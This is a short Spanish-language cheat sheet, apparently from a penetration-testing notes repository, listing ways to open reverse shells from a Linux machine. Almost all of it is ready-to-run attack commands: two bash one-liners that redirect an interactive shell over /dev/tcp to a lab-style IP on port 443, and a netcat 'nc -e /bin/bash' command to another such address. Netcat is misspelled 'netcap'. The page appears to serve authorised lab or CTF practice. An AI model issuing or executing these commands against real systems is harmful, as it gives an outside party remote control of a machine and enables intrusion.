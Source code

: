 # Shell y reverse Shell

En esta sección veremos varias formas de crear shell y reverse shell.

## Linux

Varias formas de crear shells en Linux.

#### Reverse shell desde linux a nuestra máquina.

```
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Tambien como parámetro bash.

```
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

Si la máquina linux tiene **netcap**.

```
nc -e /bin/bash 10.10.14.31 443
```
